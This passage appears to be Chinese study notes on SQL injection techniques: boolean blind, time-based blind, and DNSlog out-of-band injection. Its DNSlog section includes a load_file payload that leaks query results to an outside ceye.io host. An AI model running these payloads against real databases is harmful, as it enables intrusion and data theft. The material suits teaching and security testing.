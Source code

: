 ​						（3）探测显示位

​						（4）在显示位构造子查询

##### 	2、boolean盲注

​		1>概述：Boolean注入是指构造SQL判断语句，通过查看页面的返回结果来推测哪些SQL判断条件是成立的，以此来获取数据库中的数据。

​						Boolean是基于真假的判断; 不管输入什么，结果都只返回真或假两种情况。

​						Boolean型盲注的关键在于通过表达式结果与已知值进行比对，根据比对结果判断正确与否。

​		2>判断方法：通过长度判断length():length(database())>=x 

​								通过字符判断substr():substr(database(),1,1) =‘s’ 

​								通过ascII码判断:ascii():ascii(substr(database(),1,1)) =x

##### 	3、时间盲注

​		1>概述：代码存在sql注入漏洞，然而页面既不会回显数据，也不会回显错误信息，语句执行后也不提示真假，我们不能通过页面的内容来判断。这里我们可以通过构造语句，通过页面响应的时长，来判断信息，这既是时间盲注。

​		2>原理：利用sleep()或benchmark()等函数让mysql执行时间变长，经常与 if(expr1,expr2, expr3）语句结合使用，通过页面的响应时间来判断条件是否正确。

​		3>常用函数：left(m,n) --从左向右截取字符串m返回其前n位 

​								substr(m,1,1) --取字符串m的左边第一位起，1字长的字符串 

​								ascii(m) --返回字符m的ASCII码  

​								if(str1,str2,str3)--如果str1正确就执行str2，否则执行str3 

​								sleep(m)--使程序暂停m秒 

​								length(m) --返回字符串m的长度 

​								count(column_name) --返回指定列的值的数目

##### 	4、DNS Log注入

​		1>概述：DNSlog注入，也叫DNS带外查询，它是属于带外通信的一种(Out of Band,简称OOB)。寻常的注入基本都是在同一个信道上面的，比如正常的get注入，先在url上插入payload做HTTP请求，然后得到HTTP返回包，没有涉及其他信道。而所谓的带外通信，至少涉及两个信道。

​		2>注入原理：

​				(1) 攻击者先向web服务器提交payload语句，比如：select load_file(concat('\\\\','攻击语句',.XXX.ceye.io\\abc))

​				(2) 其中的攻击语句被放到数据库中会被执行，生成的结果与后面的.XXX.ceye.io\\abc构成一个新的域名

​				(3) 这时load_file()就可以发起请求，那么这一条带有数据库查询结果的域名就被提交到DNS服务器进行解析

​				(4) 此时，如果我们可以查看DNS服务器上的Dnslog就可以得到SQL注入结果，实际上在域名解析的过程中，是由顶级域名向下逐级解析的，我们构造的攻击语句也是如此，当它发现域名中存在ceye.io时，它会将这条域名信息转到相应的DNS服务器上，而通过http://ceye.io我们就可以查询到这条DNS解析记录。

​		3>DNSlog平台：http://ceye.io

​	 								http://www.dnslog.cn/

​		4>使用场景：

​				sql的布尔型盲注、时间注入的效率普遍很低且当注入的线程太大容易被waf拦截，并且像一些命令执行，xss以及sql注入攻击有时无法看到回显结果，这时就可以考虑DNSlog注入攻击。一共是这四个场景：SQL盲注、命令执行（无回显）、XSS（无回显）、SSRF(无回显)。
